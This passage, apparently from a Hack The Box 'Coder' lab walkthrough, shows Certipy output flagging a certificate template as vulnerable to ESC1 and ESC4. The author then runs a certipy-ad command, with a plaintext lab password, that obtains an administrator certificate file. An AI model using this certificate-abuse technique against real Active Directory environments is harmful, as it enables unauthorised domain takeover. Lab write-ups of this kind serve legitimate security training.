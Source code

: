```json
      "Minimum RSA Key Length": 2048,
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "CODER.HTB\\Erron Black"
          ]
        },
        "Object Control Permissions": {
          "Owner": "CODER.HTB\\Erron Black",
          "Full Control Principals": [
            "CODER.HTB\\Domain Admins",
            "CODER.HTB\\Local System",
            "CODER.HTB\\Enterprise Admins"
          ],
          "Write Owner Principals": [
            "CODER.HTB\\Domain Admins",
            "CODER.HTB\\Local System",
            "CODER.HTB\\Enterprise Admins"
          ],
          "Write Dacl Principals": [
            "CODER.HTB\\Domain Admins",
            "CODER.HTB\\Local System",
            "CODER.HTB\\Enterprise Admins"
          ],
          "Write Property Principals": [
            "CODER.HTB\\Domain Admins",
            "CODER.HTB\\Local System",
            "CODER.HTB\\Enterprise Admins"
          ]
        }
      },
      "[!] Vulnerabilities": {
        "ESC1": "'CODER.HTB\\\\Erron Black' can enroll, enrollee supplies subject and template allows client authentication",
        "ESC4": "Template is owned by CODER.HTB\\Erron Black"
      }
    }
  }
}

```

And yes, it does. Nice, we are almost domain admin. Now all we have to do is abuse this certificate. Now we have to request a certificate in the name of 'administrator' and if this succeeds we will get a `pfx` file. After getting the `pfx' file we can log in to the domain as the administrator.

```bash
┌──(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ certipy-ad req -username e.black@coder.htb -password 'ypOSJXPqlDOxxbQSfEERy300' -ca coder-DC01-CA -target coder.htb -template "Computer-ESC1" -upn "administrator@coder.htb"
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 19
[*] Got certificate with UPN 'administrator@coder.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
